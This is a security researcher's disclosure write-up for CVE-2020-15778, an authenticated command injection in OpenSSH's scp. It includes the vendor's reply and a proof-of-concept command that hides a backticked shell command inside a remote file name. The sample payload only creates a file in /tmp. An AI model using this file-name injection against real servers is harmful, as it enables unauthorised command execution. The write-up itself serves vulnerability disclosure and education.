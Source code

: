 # Write up for CVE id CVE-2020-15778.

# Discoverd by : Chinmay Pandya
>## Email address : cpandya2909@gmail.com
>## Linkedin : www.linkedin.com/in/chinmay-pandya


# Vulnerability title: scp in OpenSSH 8.3p1 allows eval injection.
>##                               Product: Openssh
>##                    Affected Component: SCP
>##                    Vulnerable version: <=openssh-8.3p1
>##                         Fixed version: -
>##                            CVE number: CVE-2020-15778
>##                       Vulnerable line: https://github.com/openssh/openssh-portable/blob/a2855c048b3f4b17d8787bd3f24232ec0cd79abe/scp.c#L989
>##                    Vulnerability type: Comand Injection / Eval injection (Authenticated)
>##                           Attack type: Remote attack
>## Discloser timelie:
>- Issue discovered - 9 Jun 2020
>- CVE obtained - 16 Jul 2020
>- Vendor notified - 9 Jun 2020
>- Vendor acknowledgement received - 9 Jun 2020
>- Public disclosure 18 Jul 2020

# About SCP
scp is a program for copying files between computers. It uses the SSH protocol. It is included by default in most Linux and Unix distributions
 
# Issue
While coping files to remote server, file path is appended at end of local scp command.
For example, if you execute following command
```sh
scp SourceFile user@host:directory/TargetFile
```

it will execute a local command 
```sh
scp -t directory/TargetFile
```

At time of creating local scp command, it does not sanitise file name.
An attacker can pass a backtick enabled payload as file name and when local scp command is executed, local shell will also execute backtick enabled payload.

## Example

Execute following command with scp
```sh
scp  /sourcefile remoteserver:'`touch /tmp/exploit.sh`/targetfile'
```

After executing this command, go to remote server and you will see in /tmp/ directory that file exploit.sh is present. Putting single quotes in file name is important to prevent payload execution on local shell or using escape character like single quotes in file name can prevent payload execution on local shell

***
**THIS IS AN AUTHENTICATED EXPLOIT AND REQUIRES A VALID SSH / SCP CREDENTIALS TO EXECUTE COMMAND ON REMOTE SERVER**
***

# Openssh reply 
>The scp command is a historical protocol (called rcp) which relies upon
that style of argument passing and encounters expansion problems.
>It has proven very difficult to add "security" to the scp model.  All
attempts to "detect" and "prevent" anomalous argument transfers stand a
great chance of breaking existing workflows.
>Yes, we recognize it the situation sucks.  But we don't want to break the
easy patterns people use scp for, until there is a commonplace replacement.
>People should use rsync or something else instead if they are concerned.

#  [Reference]
> Code for SCP - https://github.com/openssh/openssh-portable/blob/master/scp.c
